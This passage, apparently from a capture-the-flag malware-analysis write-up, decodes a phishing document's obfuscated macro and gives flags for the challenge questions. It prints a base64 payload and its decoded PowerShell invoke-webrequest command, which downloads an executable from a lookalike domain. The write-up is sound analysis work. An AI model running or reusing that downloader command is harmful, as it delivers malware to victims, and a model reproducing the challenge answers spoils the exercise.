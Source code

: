 Its works, now we can see much clearer view about what the macro is doing, he executed a powershell program

> **Flag: Powershell**

### 6.The macro downloaded a malicious file. Provide the full download URL.

After we deobfuscation the code we also see a string that look like `base64` encoding

![q6a](/Phishy/Images/q6a.png)

### Base64 string
`aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA`

Lets try to decode the string to see what we get, I use `CyberChef` to decode the string

![q6](/Phishy/Images/q6.PNG)

### The decode string
`invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials`

